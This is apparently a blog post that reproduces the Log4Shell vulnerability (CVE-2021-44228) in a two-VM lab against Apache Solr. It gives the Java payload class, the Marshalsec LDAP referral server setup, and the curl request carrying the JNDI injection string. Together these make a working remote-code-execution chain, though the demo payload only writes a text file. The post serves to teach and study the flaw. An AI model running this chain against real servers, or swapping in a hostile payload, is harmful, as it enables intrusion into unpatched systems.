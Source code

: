 ```yaml
---
title: "Reproducing the Log4Shell vulnerability (CVE-2021-44228)"
tags:
  - Log4Shell
  - CVE-2021-44228
  - Exploitation
  - Log4j
---
```

# Introduction
In this blog post we will be diving into the necessary steps to reproduce the Log4Shell vulnerability (CVE-2021-44228). Log4Shell is a software vulnerability in Apache Log4j2, a popular Java-based logging utility. The vulnerability has received lots of coverage on Social Media. I highly recommend watching the following videos if you wish to learn more about the background information of Log4Shell:
- [LiveOverflow: *Log4j Vulnerability (Log4Shell) Explained // CVE-2021-44228*](https://www.youtube.com/watch?v=w2F67LbEtnk)<br>
- [LiveOverflow: *Log4j Lookups in Depth // Log4Shell CVE-2021-44228 - Part 2*](https://www.youtube.com/watch?v=iI9Dz3zN4d8)<br>
- [John Hammond: *CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)*](https://www.youtube.com/watch?v=7qoPDq41xhQ)<br>

<br>

# Reproduction
## Virtual Environment setup
The virtual environment for reproducing the Log4Shell vulnerability consists of two virtual machines:
- VM1 (Windows 11 OS): hosts [Apache Solr 7.7.3](https://solr.apache.org/downloads.html), which uses a vulnerable version of Apache Log4j
- VM2 (Kali Linux OS):  hosts a simple HTTP server which contains our Java payload, and a LDAP referral server (using [Marshalsec](https://github.com/mbechler/marshalsec)) to redirect traffic to the HTTP server

We will use [VirtualBox](https://www.virtualbox.org/) to manage our virtual machines.

VM1 will get the 10.0.0.10 static IP address:<br>
![vm1ipv4settings.png](/assets/images/vm1ipv4settings.png)<br>
You can configure this by navigating to *Control Panel --> Network and Sharing Center --> Change adapter settings --> Right click on your network device --> Properties --> Internet Protocol Version 4 (TCP/IPv4) --> Properties*

VM2 will get the 10.0.0.11 static IP address:<br>
![vm2ipv4settings.png](/assets/images/vm2ipv4settings.png)<br>
You can configure this by entering the following command in a terminal: *sudo ifconfig eth0 10.0.0.11 netmask 255.0.0.0*

Once the static IP addresses are configured, make sure that both VM's can ping eachother:<br>
![ping01.png](/assets/images/ping01.png)<br>
<br>
![ping02.png](/assets/images/ping02.png)<br>
<br>

## Setting things up on VM1 (Windows 11 OS)
Apache Solr requires Java Runtime Environment (JRE) version 1.8 or higher in order to run. In this blog post we will use JDK 1.8.0_181. You can download it from the official Oracle website, but this will require you to sign up for an account first. You can also use a download mirror, such as:
[https://mirrors.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-windows-x64.exe](https://mirrors.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-windows-x64.exe)

After installing JDK 1.8.0_181 on your VM, download Solr 7.7.3 from [https://solr.apache.org/downloads.html](https://solr.apache.org/downloads.html) and unzip the file. Now open a new commandprompt and navigate to the directory in order to launch the application. I've unzipped Solr on my Desktop, so I will cd into ```C:\Users\User\Desktop\solr-7.7.3a\solr-7.7.3\bin``` and run the ```solr start``` command:<br>
![solrstart.png](/assets/images/solrstart.png)<br>

With the Solr server running, open your web browser and browse to [http://127.0.0.1:8983/](http://127.0.0.1:8983/). You should be presented with a dashboard that looks something like this:<br>
![solrdashboard.png](/assets/images/solrdashboard.png)<br>


## Setting things up on VM2 (Kali Linux OS)
Now that our target is reachable and running an application that is vulnerable to Log4Shell, it is time to prepare our attacking machine. First of, we need a Java payload that can be called when the target connects to our LDAP server. Save the code below, for example as ```/tmp/demo/Exploit.java```.<br>

```Java
public class Exploit {
  static {
    try {
      java.lang.Runtime.getRuntime().exec("cmd.exe /c echo Hello! > Log4Shelldemo.txt").waitFor();
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

This payload is quite simple and harmless. All it does is put the text "Hello!" into a file called "Log4Shelldemo.txt".

Our payload needs to be compiled using the same Java version as the application that we're exploiting, so go ahead and download the Linux version of JDK 1.8.0_181 onto VM2 (mirror: [https://mirrors.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz](https://mirrors.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)). Extract it using the ```tar -xvzf jdk-8u181-linux-x64.tar.gz``` command. <br> Now compile the payload by running ```./jdk1.8.0_181/bin/javac /tmp/demo/Exploit.java```:<br>
![compilepayload.png](/assets/images/compilepayload.png)<br>
This should result in a file called Exploit.class in our /tmp/demo directory:<br>
![exploitclass.png](/assets/images/exploitclass.png)<br>

We want to host this file on a simple HTTP server. In this case we will host it on port 8000 by running
```python3 -m http.server 8000 -d /tmp/demo```:<br>
![httpserver01.png](/assets/images/httpserver01.png)<br>

Next, using [Marshalsec](https://github.com/mbechler/marshalsec), we will run our malicious LDAP server to redirect traffic to the HTTP server with our payload. Follow these steps:
1. Install Maven by running ```sudo apt-get install maven```
2. ```cd /tmp```
3. ```git clone https://github.com/mbechler/marshalsec.git```
4. ```cd marshalsec```
5. ```mvn clean package -DskipTests```
6. ```cd target```
7. ``` java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.0.0.11:8000/#Exploit" ```

You should now have a running LDAP referral server that is listening on port 1389:<br>
![ldapserver01.png](/assets/images/ldapserver01.png)<br>

## Exploitation
Now that we have both a Java payload on a HTTP server and a malicious LDAP server to redirect the traffic, we can send our exploit string to the Apache Solr application. We will use cURL to send the following malicious GET request to our target:<br>```curl 'http://10.0.0.10:8983/solr/admin/cores?foo=$\{jndi:ldap://10.0.0.11:1389/Exploit\}' ```
Once the string gets parsed by the Log4j2 logger, the vulnerable application will reach out to the LDAP server and look for the "Exploit" object. It will then get redirected to the HTTP server, load our Exploit.class payload and execute it!

So, let's send the GET request:<br>
![getrequest01.png](/assets/images/getrequest01.png)<br>

Inside our other terminal window, we can see that the LDAP server successfully redirected the traffic:<br>
![ldapserver02.png](/assets/images/ldapserver02.png)<br>

And on our HTTP server, we can see a GET request from 10.0.0.10 for our Exploit.class payload with a status code of 200:<br>
![httpserver02.png](/assets/images/httpserver02.png)<br>

Back on our Windows 11 VM, let's browse to the Apache Solr server folder:<br>
![solrserver01.png](/assets/images/solrserver01.png)<br>
And as you can see, our Log4Shelldemo.txt file is right there. If we open it, it should contain the "Hello!" text:<br>
![log4shelldemo.png](/assets/images/log4shelldemo.png)<br>
This means that our payload was executed and the exploit was succesful! 
<br>
<br>
<br>

*Sources:*
1. *[https://tryhackme.com/room/solar](https://tryhackme.com/room/solar)*
2. *[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)*
3. *[https://www.perfacilis.com/blog/security/how-to-check-and-mitigate-the-log4j-vulnerability.html](https://www.perfacilis.com/blog/security/how-to-check-and-mitigate-the-log4j-vulnerability.html)*
4. *[https://solr.apache.org/guide/8_11/index.html](https://solr.apache.org/guide/8_11/index.html)*
5. *[https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/](https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/)*
6. *[LiveOverflow: *Log4j Vulnerability (Log4Shell) Explained // CVE-2021-44228*](https://www.youtube.com/watch?v=w2F67LbEtnk)*
7. *[LiveOverflow: *Log4j Lookups in Depth // Log4Shell CVE-2021-44228 - Part 2*](https://www.youtube.com/watch?v=iI9Dz3zN4d8)*
8. *[John Hammond: *CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)*](https://www.youtube.com/watch?v=7qoPDq41xhQ)*
